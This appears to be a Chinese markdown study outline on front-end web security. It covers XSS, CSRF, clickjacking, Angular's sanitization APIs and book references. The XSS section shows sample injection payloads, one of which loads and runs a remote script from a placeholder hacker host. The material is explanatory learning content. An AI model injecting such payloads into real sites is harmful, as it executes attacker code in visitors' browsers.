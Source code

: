 ## 大纲
* 推荐书籍
* 目前前端项目
* XSS攻击
* CXRF攻击
* 界面操作劫持
* 漏洞挖掘

### 书籍

1. [Web前端黑客技术揭秘](https://item.jd.com/12878817351.html) [Web前端黑客技术揭秘(视频)](https://ke.qq.com/course/133640)
2. [白帽子讲Web安全](https://item.jd.com/11483966.html)
3. [白帽子讲Web扫描](https://item.jd.com/15503446687.html)


### 目前前端项目

目前是基于Angular的工程。使用webpack对js代码进行加密，混淆，中文Base64处理。

1. [Angular安全](https://angular.cn/guide/security)
    * bypassSecurityTrustHtml
    * bypassSecurityTrustScript
    * bypassSecurityTrustStyle
    * bypassSecurityTrustUrl
    * bypassSecurityTrustResourceUrl
2. [Angular安全：xsrf-防护](https://angular.cn/guide/http#安全：xsrf-防护)
2. [Angular安全：xssi-防护](https://angular.cn/guide/security#xssi)
3. [Angularjs xss防护：$sce服务](https://docs.angularjs.org/api/ng/service/$sce#use-the-latest-angularjs-possible)
    * trustAsHtml(value)
    * trustAsCss(value)
    * trustAsUrl(value)
    * trustAsResourceUrl(value)
    * trustAsJs(value)

### XSS攻击
[百度百科](https://baike.baidu.com/item/XSS%E6%94%BB%E5%87%BB/954065?fr=aladdin)
主要是注入脚本，如论坛里面用户输入`<script>alert();</script>`，页面回显的时候如果没有处理js脚本，就可能造成攻击。angular的$sce就是用来处理XSS攻击的。`<script>$.getScript('http://www.hack.com/index.js');</script>`

1. HTML中代码注入技巧(196页)
    * 标签注入
    * 属性注入
    * HTML事件
2. CSS代码注入技巧(209页)
    * CSS资源类属性
    * IE独有的expression
3. 更多经典的混淆CheckList(221页)
4. 例子
    * 浏览器记住密码(235)

**能被我们利用插入XSS脚本的地方只有css资源类属性值和@import规则，以及IE浏览器下执行的属性值expression**

### CXRF攻击
[栗子](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

### 界面操作劫持
[栗子](http://blog.csdn.net/c2iekqea/article/details/55684701)


### 漏洞挖掘

1. csrf漏洞挖掘

    ![csrf](./img/csrf.png)

2. 界面操作劫持漏洞挖掘

    ![csrf](./img/2017-11-15_114735.png)
